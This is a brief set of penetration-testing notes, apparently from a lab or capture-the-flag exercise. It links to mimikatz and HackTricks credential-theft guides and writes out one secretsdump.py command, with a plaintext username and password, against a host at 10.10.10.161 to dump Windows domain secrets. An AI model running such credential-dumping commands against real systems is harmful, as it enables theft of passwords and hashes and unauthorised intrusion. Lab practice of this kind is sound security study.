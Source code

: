 
[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
# Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)


# Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```